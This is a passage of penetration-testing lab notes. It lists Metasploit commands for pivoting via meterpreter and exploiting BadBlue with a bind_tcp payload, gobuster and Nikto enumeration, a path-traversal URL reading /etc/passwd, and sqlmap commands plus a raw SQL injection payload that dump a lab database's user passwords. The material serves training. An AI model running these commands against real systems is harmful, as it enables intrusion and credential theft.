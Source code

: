	- `search portscan`
	- `use auxiliary/scanner/portscan/tcp`
	- `show options`
	- `set rhosts Victim2iP`
	- `exploit`
	- Port 80 open port found on victim2
	- Now go to session in metereter
	- `sessions 1`
	- `portfwd add -l 1234 -p 80 -r <Victim2IP>`
	- Now again put this session in background
	- `db_nmap -sV -sS -p 1234 localhost`
	- `search badblue`
	- `use exploit/windows/http/badblue_passthru`
	- `show options`
	- `set payload windows/meterpreter/bind_tcp`
	- `set rhosts <Victim2IP>`
	- `set LPORT 4433`
	- `run`
	- got meterpreter session
	- Congrats!
- web application penetration testing
	- **Directory Enumeration - [Go buster & Burp suite]**
		1. `sudo apt update && sudo apt install -y gobuster`
		2. `gobuster dir -u <http://192.21.23.23> -w /usr/share/wordlists/dirb/common.txt`
		3. `gobuster dir -url <http://192.21.23.23> -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r`
		4. `gobuster dir -url <http://192.21.23.23/data> -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r`
		5. Turn on burp
		6. capture the GET / request and send to Intruder
		7. User burp custom wordlists, or select for your wish
		8. start attack
	- **Scanning web application - [ZAP & Nikto]**
		1. Zap manual and automatic scan
		2. Nikto scan- `nikto -h [<http://192.157.60.3>](<http://192.157.60.3/>) -o niktoscan-192.157.60.3.txt`
		3. `nikto -h <http://192.157.60.3/index.php?page=arbitrary-file-inclusion.php> -Tuning 5 -o nikto.html -Format htm`
		4. `firefox nikto.html`
		5. [`http://192.157.60.3/index.php/index.php?page=../../../../../../../../../../etc/passwd`](http://192.157.60.3/index.php/index.php?page=../../../../../../../../../../etc/passwd)
	- **Passive Crawling with Burp suite**
		1. Turn on burp
		2. Check HTTP history and crawl endpoints
		3. Add target and scan it
	- **SQL Injection- sqlmap**
		1. [http://192.42.186.3/sqli_1.php?title=hacking&action=search](http://192.42.186.3/sqli_1.php?title=hacking&action=search)
		2. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title`
		3. hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search
		4. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs`
		5. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables`
		6. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns`
		7. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump`
		8. `sqlmap -r request -p title`
	- **XSS attack with XSSer**
